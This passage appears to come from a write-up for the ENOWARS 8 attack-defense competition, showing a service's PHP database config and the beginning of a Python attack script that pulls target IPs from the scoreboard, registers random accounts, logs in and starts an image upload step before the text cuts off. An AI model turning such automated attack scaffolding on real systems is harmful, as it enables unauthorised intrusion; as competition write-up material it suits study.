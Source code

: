 The database connection is facilitated by `config.php`:

```php
<?php
error_reporting(0);
define('DB_SERVER', 'db');
define('DB_USERNAME', 'date');
define('DB_PASSWORD', 'somepassword');
define('DB_DATABASE', 'date');


$conn = new mysqli(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_DATABASE);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

The final script used in the attack can be found below:

```python
import requests
import random
import string
import hashlib
import urllib.parse
import re
from pwn import *

def get_data(service):
    attacks_json = "https://8.enowars.com/scoreboard/attack.json"
    json_data = requests.get(attacks_json).json()
    services = json_data['services']
    attack_data = services[service]
    ips = services[service].keys()
    return (attack_data, ips)

def gen_random_creds():
    username = ''.join(random.choices(string.ascii_lowercase + string.digits, k=8))
    password = ''.join(random.choices(string.ascii_lowercase + string.digits, k=8))
    return (username, password)

def register(ip, creds, session):
    url = f"http://{ip}:8080/register.php"
    username, password = creds
    data = {
        "username": username,
        "password": password,
        "confirm_password": password,
        "gender": "male",
        "age": 69
    }
    session.post(url, data=data, timeout=3)

def login(ip, creds, session):
    url = f"http://{ip}:8080/login.php"
    username, password = creds
    data = {
        "username": username,
        "password": password
    }
    response = session.post(url, data=data, timeout=3)

def upload_image(ip, session):
```